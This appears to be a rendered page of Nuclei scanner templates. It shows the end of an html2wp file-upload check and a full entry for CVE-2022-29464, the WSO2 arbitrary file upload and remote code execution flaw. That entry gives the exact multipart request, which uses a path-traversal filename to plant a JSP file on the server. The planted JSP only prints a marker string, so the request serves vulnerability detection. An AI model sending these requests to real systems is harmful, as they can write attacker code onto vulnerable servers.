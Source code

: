 ```
GET /wp-content/uploads/html2wp/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code_1 == 302
  2. status_code_2 == 200
  3. contains(body_2, 'File Upload success')
- condition - and

---

# WSO2 Management - Arbitrary File Upload & Remote Code Execution

## Description

- Certain WSO2 products allow unrestricted file upload with resultant remote code execution. This affects WSO2 API Manager 2.2.0 and above through 4.0.0; WSO2 Identity Server 5.2.0 and above through 5.11.0; WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, and 5.6.0; WSO2 Identity Server as Key Manager 5.3.0 and above through 5.10.0; and WSO2 Enterprise Integrator 6.2.0 and above through 6.6.0.

- severity - critical
- tags - cve,cve2022,rce,fileupload,wso2,intrusive,kev

## Requests

### Step - 1

```
POST /fileupload/toolsAny HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
Content-Length: 348

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp";filename="test.jsp"
Content-Type: application/octet-stream

<% out.print("WSO2-RCE-CVE-2022-29464"); %>
-----------------------------250033711231076532771336998311--

```
